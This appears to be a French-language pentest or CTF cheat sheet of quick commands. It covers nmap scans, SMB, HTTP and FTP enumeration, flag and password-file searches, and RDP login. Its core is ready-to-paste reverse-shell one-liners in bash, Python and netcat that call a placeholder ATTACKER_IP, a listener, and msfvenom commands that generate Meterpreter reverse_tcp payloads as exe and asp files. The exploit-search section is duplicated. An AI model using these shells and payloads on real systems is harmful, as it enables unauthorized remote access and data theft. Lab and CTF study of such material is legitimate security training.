 # ⚡ Commandes Rapides

[← Retour à la table des matières](../README.md)

## Scan initial rapide
```bash
# Host discovery
nmap -sn target.0/24

# Port scan rapide
nmap -F targetIP

# Scan complet
nmap -sC -sV -O targetIP
```

## Énumération express par service
```bash
# HTTP
gobuster dir -u http://targetIP -w /usr/share/wordlists/dirb/common.txt

# SMB
enum4linux -a targetIP
smbclient -L targetIP -N

# FTP
ftp targetIP  # anonymous:anonymous

# SSH
ssh targetIP  # Tester comptes par défaut
```

## Reverse shells rapides
```bash
# Bash
/bin/bash -c 'bash -i>&/dev/tcp/ATTACKER_IP/PORT 0>&1'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat
nc -e /bin/sh ATTACKER_IP PORT
```

## Listener
```bash
nc -nvlp PORT
```

## Recherche d'exploits
```bash
# Searchsploit pour trouver des exploits
searchsploit service_name
searchsploit hfs
searchsploit "rejetto"
```

## Commandes Windows utiles

### Recherche de flags
```cmd
# Liste des répertoires
dir C:\

# Lecture d'un fichier
type C:\path\to\flag.txt

# Recherche récursive
dir C:\ /s /b | findstr flag
```

### Connexion RDP depuis Linux
```bash
xfreerdp /u:username /p:password /v:targetIP:targetPort
```

## Génération rapide de payloads
```bash
# Meterpreter Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f exe > shell.exe

# ASP pour WebDAV
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp
```

## Recherche d'exploits
```bash
# Searchsploit pour trouver des exploits
searchsploit service_name
searchsploit hfs
searchsploit "rejetto"

# Vérifier les versions après énumération
searchsploit "apache 2.4.7"
```

## Recherche de fichiers
```bash
# Recherche de fichiers par nom (Linux)
find / -name "*flag*" 2>/dev/null
find / -name "*password*" 2>/dev/null

# Recherche de fichiers spécifiques
find / -name "*FlageSearch*" 2>/dev/null
```